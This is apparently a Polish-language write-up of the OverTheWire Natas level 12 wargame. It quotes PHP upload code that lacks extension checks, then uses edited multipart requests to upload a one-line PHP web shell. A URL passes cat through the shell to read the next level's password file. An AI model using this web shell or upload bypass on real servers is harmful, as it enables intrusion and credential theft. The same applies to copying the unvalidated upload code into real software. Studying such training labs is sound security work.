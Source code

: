 Strona posiada możliwość wrzucenia pliku w formacie jpeg o maksymalnej wielkości 1kb.
![](Attachments/{5E0FBBB4-4019-4D74-BEB2-E6453EFF9A56}.png)

Kod źródłowy:
```php
<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

Z kodu wynika, że po wrzuceniu pliku jest tworzona ścieżka do pliku z losowym ciągiem 10 znaków, a następnie jeżeli plik jest mniejszy niż 1KB to jest wrzucany na stronę i wyświetlany jest do niego link. Ważnym aspektem jest to, że nie jest sprawdzane rozszerzenie wrzucanego pliku. Dodanie pliku .txt skutkuje wrzuceniem go na stronę z tym, że link do niego będzie z końcówką .jpg.

W celu wykorzystania tej luki można stworzyć plik .php zawierający kod w celu dostania się do pliku z hasłem. Do tego zadania można wykorzystać burp suite, którym zmieni się dane w żądaniu.

``` http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"



1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"



nx8w6bp4cm.jpg

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php.jpeg"

Content-Type: image/jpeg



ÿØÿà
```

Podane żądanie wysyła plik Untitled.php.jpeg na stronę a sam plik jest prostym obrazkiem. Zmieniając w nim dane takie jak filename z końcówki .jpg na .php oraz Content-Type na text/plain, można podmienić dane obrazka na kod php czy html i wysłać na serwer.

```http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"

nx8w6bp4cm.php

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<html>
<body>
<div class="menu">
<?php include 'menu.php';?>
</div>
<h1>Welcome to my home page!</h1>
<p>Some text.</p>
<p>Some more text.</p>
</body>
</html> 
-----------------------------16669131631235052687185842707--
```

Wysłanie takiego pliku spowoduje pojawienie się linku do niego na stronie:
![](Attachments/{2208BB4A-AF06-46AE-ABBE-633E356170ED}.png)

Wejście w niego zwróci napisany kod:

![](Attachments/{545003C3-7EB9-4922-B434-762D2029C37B}.png)

Wiedząc, że ta metoda działa można wysłać plik z kodem pozwalającym na wysyłanie poleceń do powłoki systemu poprzez argument w url.

```http
Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<?php system($_GET['cmd']);?>

-----------------------------16669131631235052687185842707--

```

Teraz po wejściu w link do tego pliku poprzez przekazanie parametru cmd w url strony będą wykonywane polecenia poprzez funkcję system(). Jest to prosta implementacja web shell w PHP.

![](Attachments/{B885B233-BA9F-4AD4-8D28-179F9E8B6281}.png)

Wpisanie w url:
```url
http://natas12.natas.labs.overthewire.org/upload/v7bg91y73p.php?cmd=cat%20../../../../../etc/natas_webpass/natas13
```
zwróci hasło do następnego poziomu.


